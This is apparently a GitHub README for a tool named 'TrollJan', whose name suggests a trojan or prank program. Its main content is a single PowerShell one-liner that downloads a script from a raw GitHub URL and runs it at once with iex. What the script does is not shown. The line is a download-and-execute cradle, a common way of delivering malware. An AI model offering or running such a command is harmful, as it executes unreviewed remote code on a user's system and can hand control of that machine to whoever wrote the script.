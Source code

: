 [![forthebadge](https://forthebadge.com/images/badges/powered-by-black-magic.svg)](https://forthebadge.com)

# TrollJan

![image](https://user-images.githubusercontent.com/113638953/232338744-45a7f99b-c23d-4f75-8a0d-54bf4c05621a.png)

# OneLiner - PowerShell

```
iex((New-Object System.Net.Webclient).DownloadString("https://raw.githubusercontent.com/jungawagat/trolljan/main/trolljan.ps1"))
```



